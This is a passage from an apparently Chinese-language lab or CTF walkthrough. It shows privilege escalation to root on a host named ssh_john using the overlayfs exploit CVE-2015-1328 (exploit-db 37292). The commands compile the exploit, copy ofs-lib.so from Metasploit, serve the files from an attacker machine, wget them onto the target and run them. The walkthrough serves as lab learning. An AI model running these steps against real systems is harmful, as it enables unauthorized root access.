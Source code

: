 编译：`gcc -o 37292_exp 37292.c`

查找二进制文件 `locate ofs-lib.so`

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/Hut91iwxBm7QxMakPoHXZ_1rWHPy3CTQN4OYYi4NBrs.png?raw=true)

拷贝出来

`cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so .`

kali开启web服务

`python3 -m http.server 80` 

ssh\_john主机进行wget获取

`wget http://192.168.0.56/ofs-lib.so` 

`wget http://192.168.0.56/37292_exp`

为了执行顺利，把两个文件移到tmp目录下

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/6gxjSL3DvA0nvgIlVH5OlsRbyQIAhvhIeQjDyvEbxg4.png?raw=true)

`chmod +x *` 加上可执行权限

`./37292_exp` 执行脚本

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/Wqm3F0dHb88LYAjcWJnbhpkZbB8MAWrA9_CoPPdp660.png?raw=true)

获取root权限

